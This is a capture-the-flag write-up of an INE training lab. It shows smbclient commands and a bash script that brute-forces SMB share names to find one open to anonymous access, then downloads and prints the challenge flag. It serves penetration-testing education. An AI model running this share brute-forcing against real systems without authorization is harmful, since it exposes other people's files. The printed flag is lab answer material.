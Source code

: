 # SMB Enumeration: Anonymous Access

## Challenge Title
SMB Share with Anonymous Access

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Description

The goal of this challenge is to identify an SMB share that allows **anonymous access**, enumerate its contents, and retrieve a hidden flag.

---

## Tools Used

- `smbclient`: to query SMB shares
- Wordlist `shares.txt`
- `bash`: to script brute-force enumeration of share names
- `nano` / `chmod`: to edit and execute the script

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Initial Enumeration with `smbclient`

```bash
smbclient -L //target.ine.local -N
```
![Step 1 - Initial SMB Error](./1.png)

### 🔹 Step 2: Create Enumeration Script `shares.sh`

```bash
nano shares.sh
```
Paste the following script:
```bash
#!/bin/bash

# Define the target and wordlist location
TARGET="target.ine.local"
WORDLIST="/root/Desktop/wordlists/shares.txt"

# Check if the wordlist file exists
if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

# Loop through each share in the wordlist
while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```
> 📌 The `shares.sh` script used in this challenge is originally credited to [Prinugupta on Medium](https://prinugupta.medium.com/assessment-methodologies-enumeration-ctf-1-ejpt-ine-74461effd6a7).

Make it executable:
```bash
chmod +x shares.sh
```
![Step 2 - Created Script](./2.png)

### 🔹 Step 3: Run the Script
```bash
./shares.sh
```
![Step 3 - Brute Forcing Shares](./3.png)

Output:
You’ll see lots of denied messages until:
```css
[+] Anonymous access allowed for: pubfiles
```
![Step 4 - Found Anonymous Access](./4.png)

That means pubfiles is accessible anonymously.

### 🔹 Step 4: Access the Share
```bash
smbclient //target.ine.local/pubfiles -N
```
List contents:
```bash
smb: \> ls
```
You’ll see something like:
flag1.txt

### 🔹 Step 5: Download the Flag
```bash
smb: \> get flag1.txt
```
Exit the session:
```bash
smb: \> exit
```
![Step 5 - Retrieved Flag](./5.png)

### 🔹 Step 6: View the Flag
```bash
cat flag1.txt
```
Final Output:
```bash
FLAG{56a55b23a464f5b8893fe22c6e3d611}
```
![Step 6 - Viewed Flag Content](./6.png)

## Conclusion
This lab highlights the importance of checking for misconfigured Samba shares that allow anonymous access. Attackers can exploit this to discover sensitive files like backup data, credentials, or flags.

## Files Included
- `shares.sh`: The script used to enumerate shares
- `shares.txt`: Wordlist of possible SMB share names
- Screenshots: 1.png → 6.png (steps of the challenge)
